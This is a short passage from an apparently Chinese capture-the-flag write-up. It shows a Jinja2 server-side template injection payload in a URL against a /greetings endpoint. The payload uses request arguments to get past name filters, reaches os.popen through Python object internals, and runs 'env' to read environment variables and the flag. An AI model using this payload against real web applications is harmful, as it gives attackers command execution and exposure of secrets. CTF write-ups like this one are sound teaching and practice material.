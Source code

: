 直接查看环境变量：
```
/greetings?name={%print(""[request["args"]["a"]][request["args"]["b"]][0][request["args"]["c"]]()[133][request["args"]["d"]][request["args"]["e"]][request["args"]["f"]](request["args"]["aa"])[request["args"]["g"]]())%}&a=__class__&b=__bases__&c=__subclasses__&d=__init__&e=__globals__&f=popen&g=read&aa=env
```
成功，拿到flag

![alt text](assets/20240615-writeup/image-1.png)








